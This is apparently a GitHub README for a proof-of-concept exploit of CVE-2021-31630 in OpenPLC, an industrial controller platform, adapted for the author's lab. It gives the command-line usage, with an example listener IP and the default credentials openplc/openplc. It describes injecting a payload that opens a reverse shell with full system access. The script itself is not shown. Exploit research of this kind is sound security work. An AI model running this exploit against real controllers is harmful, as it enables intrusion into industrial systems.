 
# CVE-2021-31630 OpenPLC Exploit

## Overview
This repository contains a Proof of Concept (PoC) exploit for **CVE-2021-31630**, a vulnerability in OpenPLC that allows remote code execution. After researching and analyzing multiple public exploits, I modified and adapted them for my own lab setup. By leveraging this exploit, I was able to gain a **reverse shell** and access the OpenPLC web server.

## Usage
To execute the exploit, run:

```bash
python3 OpenPlc-CVE-2021-31630.py -ip <LISTEN_IP> -p <LISTEN_PORT> -u <USERNAME> -pwd <PASSWORD>
```

Example:
```bash
python3 OpenPlc-CVE-2021-31630.py -ip 192.168.1.100 -p 1337 -u openplc -pwd openplc
```

## Arguments
- `-ip <LISTEN_IP>` : The IP address to listen on for the reverse shell.
- `-p <LISTEN_PORT>` : The port number to listen on.
- `-u <USERNAME>` : The username required for OpenPLC login.
- `-pwd <PASSWORD>` : The password required for OpenPLC login.

## Description
This exploit takes advantage of the **CVE-2021-31630** vulnerability found in OpenPLC, enabling an attacker to achieve **remote code execution**. By providing the necessary credentials and connecting to the OpenPLC web server, the script injects a payload that triggers a reverse shell, granting full access to the system.

## Author
Modified  by **Sulaiman Alhasawi**



